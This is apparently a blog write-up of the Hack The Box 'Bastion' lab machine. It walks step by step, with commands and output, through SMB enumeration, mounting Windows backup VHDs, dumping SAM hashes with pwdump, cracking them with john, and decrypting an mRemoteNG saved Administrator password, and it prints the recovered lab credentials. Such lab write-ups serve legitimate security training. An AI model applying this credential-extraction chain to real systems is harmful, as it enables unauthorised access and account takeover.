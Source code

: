 ```yaml
---
layout: post
title: Bastion (10.10.10.134) Writeup
description: >
  Hackthebox Bastion Writeup
image: /assets/img/bastion.png
noindex: true
---
```


<center><h3>Summary</h3></center>
<br>

- Access an open SMB share to find a full Windows backup file
- Grab the SAM hases and crack the password
- mRemoteNG is install and the password is stored inside the configuration file
- Use credentials to SSH as Administrator
<br>
First we start with an Nmap scan

```
# Nmap 7.70 scan initiated Wed May 22 14:41:53 2019: nmap -sV -sC -T4 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.038s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -46m34s, deviation: 1h09m15s, median: -6m36s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-22T20:35:28+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-22 14:35:27
|_  start_date: 2019-05-19 22:23:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 22 14:42:11 2019 -- 1 IP address (1 host up) scanned in 17.97 seconds
```
<br>
A few ports open. Lets take a look at SMB. Running a quick smbmap we will see that there is a <b>Backups</b> directory that we have <b>READ, WRITE</b> privileges to.

```
# smbmap -u invalid -H 10.10.10.134
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
Next thing I did was connect to the <b>Backups</b> share folder. Once connected I was able to see a few files but the ones that interested me were the <b>notes.txt</b> and <b>WindowsImageBackup</b>.
```
# smbclient -U none //10.10.10.134/Backups password
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 17:48:51 2019
  ..                                  D        0  Tue Sep 17 17:48:51 2019
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  rEFqURGnaS                          D        0  Tue Sep 17 17:48:51 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019
  ZWSfrgOAqs                          D        0  Tue Sep 17 17:42:12 2019

                7735807 blocks of size 4096. 2757009 blocks available
```
The <b>notes.txt</b> file mentions that I dont need to donwload the entire Windows Backups image to our host machine.
```
smb: \> more note.txt
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Instead of wasting time and downloading the files from the share, I decided to mount it. Before I was able to mount it I had to install a few things
```
# sudo apt install nfs-common
# sudo apt install cifs-utils
# sudo apt install libguestfs-tools
```
Once all those were downloaded I was able to mount the drive
```
mount -t cifs //10.10.10.134/Backups /mnt/Bastion
```
If you look around the <b>WindowsImageBackup</b> directory the you should ifnd two <b>.vhd</b> files.
```
# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
<output omitted>
```
To mount the <b>.vhd</b> files I used the tool <b>guestmount</b>.
```
# guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
After enumerating around the box I realized I wont find any flags at this time. Next step was to dump the hashes from the SAM file. The SAM file is located at <b>Windows/System32/config</b> but it can't be access like any old file. To extract the hashes we will use a tool called <b>pwdump</b>.
```
# pwdump SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Next I am going to use john to crack the hash. First we need to copy the hashes to a text file and the start john
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```
Now we have a password <b>bureaulampje</b> for the user <b>L4mpje</b>. We can use this to SSH in. From this point we can grab the user flag located at <b>C:\Users\L4mpje\Desktop</b>.
```
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir                                                       
 Volume in drive C has no label.                                                                 
 Volume Serial Number is 0CB3-C487                                                               

 Directory of C:\Users\L4mpje\Desktop                                                            

22-02-2019  16:27    <DIR>          .                                                            
22-02-2019  16:27    <DIR>          ..                                                           
23-02-2019  10:07                32 user.txt                                                     
               1 File(s)             32 bytes                                                    
               2 Dir(s)  11.292.332.032 bytes free                                               
```
After doing some serious enumerating I was able to find that mRemoteNG is installed on the system. Some further enumeration revealed a XML configuration file located at <b>C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml</b>. Reading the XML file I noticed the username <b>Administrator</b> along with something that resembles a password hash.
```
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a                     -44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVq                                                        
tKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP                 " PuttySession="Default Settings" Port="3389" ConnectToConsole="false"
```
My next thought was to decrypt the hash. After consulting my friend google, I was able to find something that could help me. These two links will help decrypt the password *[One](https://github.com/kmahyyg/mremoteng-decrypt)* and *[Two](https://github.com/kmahyyg/mremoteng-decrypt/releases)*.

Once you have everything ready we can now decrypt the hash.
```
# java -jar decipher mremoteng.jar aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

User input: aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Use default password for cracking...
Decrypted output: thXLHM96BeKL0ER2
```
Last we can use the decrypted password to log in as Administrator and grab the flag. You can find the root flag in <b>C:\Users\Administrator\Desktop</b>
```
administrator@BASTION C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.                                                                               
 Volume Serial Number is 0CB3-C487                                              

 Directory of C:\Users\Administrator\Desktop                                                              

23-02-2019  10:40    <DIR>          .                                                  
23-02-2019  10:40    <DIR>          ..                                                               
23-02-2019  10:07                32 root.txt                                                            
               1 File(s)             32 bytes                                                             
               2 Dir(s)  11.291.758.592 bytes free
```
<br><br><br>
